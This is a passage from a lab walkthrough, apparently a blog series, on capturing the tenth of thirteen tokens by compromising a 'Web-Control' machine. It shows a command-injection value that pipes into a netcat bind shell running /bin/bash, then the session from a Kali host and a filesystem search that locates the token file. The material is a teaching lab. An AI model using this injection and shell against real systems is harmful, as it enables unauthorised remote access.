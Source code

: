 So it seems that by injecting the bash `||` command, we somewhat broke the application. This might be a viable [Command Injection](https://www.owasp.org/index.php/Command_Injection) exploit.

Let's try creating a tcp shell via netcat to see if it works.

```console
Option: | nc -lvp 1234 -e /bin/bash
```

## Finding the Web-Control Token:

Now that we have a tcp shell working on the backend of the Web-Control machine, let's connect to it and try to find the token.

```console
root@kali:~/gds# nc 192.168.0.6 1234
ls
database
test.txt
find / -name **token**
/proc/sys/net/token-ring
^[/usr/include/python2.7/token.h
/usr/lib/python2.6/tokenize.pyc
/usr/lib/python2.6/token.py
/usr/lib/python2.6/tokenize.py
/usr/lib/python2.6/lib2to3/pgen2/tokenize.pyc
/usr/lib/python2.6/lib2to3/pgen2/token.py
/usr/lib/python2.6/lib2to3/pgen2/tokenize.py
/usr/lib/python2.6/lib2to3/pgen2/token.pyc
/usr/lib/python2.6/token.pyc
/usr/lib/python2.7/tokenize.pyc
/usr/lib/python2.7/token.py
/usr/lib/python2.7/tokenize.py
/usr/lib/python2.7/lib2to3/pgen2/tokenize.pyc
/usr/lib/python2.7/lib2to3/pgen2/token.py
/usr/lib/python2.7/lib2to3/pgen2/tokenize.py
/usr/lib/python2.7/lib2to3/pgen2/token.pyc
/usr/lib/python2.7/token.pyc
/lib/modules/3.2.0-4-amd64/kernel/drivers/net/tokenring
/var/opt/token.txt
```

## Token (10/13):

Congrats on finding the token! Go ahead and submit it on the main page to gain points for it!

You might be wondering why I didn't post the actual token. Well, what would be the fun in that if I did? Go through and actually try to compromise the Web-Control machine via Brute Force to get the token!

You learn by doing, so go through this walkthrough, and the lab - and learn something new!

That's all for now, stay tuned for my next post as we compromise Token (11/13) - The WIN-TERM Token!

